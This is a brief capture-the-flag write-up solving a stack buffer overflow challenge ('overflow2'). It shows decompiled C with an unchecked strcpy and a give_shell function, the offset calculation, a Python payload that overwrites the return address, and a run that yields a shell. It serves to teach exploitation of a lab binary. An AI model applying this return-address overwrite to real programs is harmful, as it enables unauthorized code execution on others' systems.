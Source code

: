 ### S0lv3d by H4yicl3

try to download it

try to analysis it with IDA
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  if ( argc > 1 )
    vuln((char *)argv[1]);
  return 0;
}
char *__cdecl vuln(char *src)
{
  char dest; // [sp+10h] [bp-18h]@1	//try to overflow this to get eip

  return strcpy(&dest, src);
}
int give_shell()
{
  __gid_t v0; // ST1C_4@1

  v0 = getegid();
  setresgid(v0, v0, v0);
  return system("/bin/sh -i");		//redirect to give_shell
}
```

try find the offset with IDA
```
-00000018 dest            db ?
+00000004  r              db 4 dup(?)
.text:080484AD give_shell      proc near
```
offset =0x18+0x4=0x1c =28
address_of_give_shell = 0x080484ad

try to exploit that
```python
padding = "A"*28
give_shell="\xad\x84\x04\x08"
print padding + give_shell
```

try to run the exploit
```
./overflow2 `python overflow2.py`
$ whoami
hayicle
$ 
```

well done
